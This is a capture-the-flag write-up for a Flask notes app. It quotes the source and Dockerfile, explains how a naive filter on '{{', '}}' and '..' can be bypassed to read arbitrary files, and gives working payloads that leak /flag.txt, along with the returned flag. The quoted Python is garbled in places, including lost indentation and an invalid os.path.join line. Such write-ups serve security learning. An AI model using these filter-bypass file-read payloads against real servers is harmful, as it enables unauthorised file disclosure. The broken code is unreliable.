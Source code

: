 
## source code from zip file

```python
from flask import Flask, render_template, jsonify, request  
import re, os, base64  
  
app = Flask(__name__)  
  
# Root endpoint  
@app.route("/")  
def index():  
return render_template("index.html")  
  
# Notes endpoint  
@app.route("/notes", methods=["GET", "POST"])  
def notes():  
if request.method == "GET":  
	return render_template("notes.html")  
elif request.method == "POST":  
	note = request.form.get("note")  
	note = note.replace("{{", "").replace("}}", "").replace("..", "")  
	print("note: ",note)  
	for include in re.findall("({{.*?}})", note):  
		file_name = os.path.join("notes",, "", include))  
		print("filename: ",file_name)  
	try:  
		with open(file_name, "rb") as file:  
			note = note.replace(include, f"<img src=\"data:image/png;base64,{base64.b64encode(file.read()).decode('latin1')}\" width=\"25\" height=\"25\" />")  
	except FileNotFoundError:  
		return "Sorry, No note found by this name", 404  
	return note
	  
if __name__ == "__main__":  
app.run(debug=False,host="0.0.0.0",port=7080)
```

## docker file
```docker
FROM python:3.9-slim-buster

WORKDIR /app

COPY requirements.txt .

RUN apt-get update && apt-get upgrade -y

RUN pip install --no-cache-dir -r requirements.txt

COPY . .

RUN mv flag.txt /

EXPOSE 7080

CMD ["python", "app.py"]
```

##### Breakdown for the code 
- the code get a post request with parameter `note` which is a path for a file 
- the code replace every  `{{` , `}}` , `..` with empty string
- to enter the for loop which return files the string must be in this form {{any_text}}
- when the note path is set every {} will be placed with null
- will return an image with data scheme with content of the file encoded in base64

##### we want to read `/flag.txt`  , to enter the for loop our string need to be like this `{{/flag.txt}}` to return `/flag.txt` , but how can this be done while `{{` and `}}` is replaced the answer is in `..`

##### the `{` and `}` is not replaced and `..` is replaced to null , so lets construct the payload  
```
{..{}}/flag.txt{{}..} => during the ctf i used this
or
{..{/flag.txt}..} => while wrting the writeup i figured out this and it is simbler
```

##### after we submit it an image will return
```html
<img src="data:image/png;base64,Q0FURntZMFVfNFIzX1RIM19sMzN0X0JZUEFTUzNSfQ==" width="25" height="25">
```

##### decode the base64 value and here is out flag
```
CATF{Y0U_4R3_TH3_l33t_BYPASS3R}
```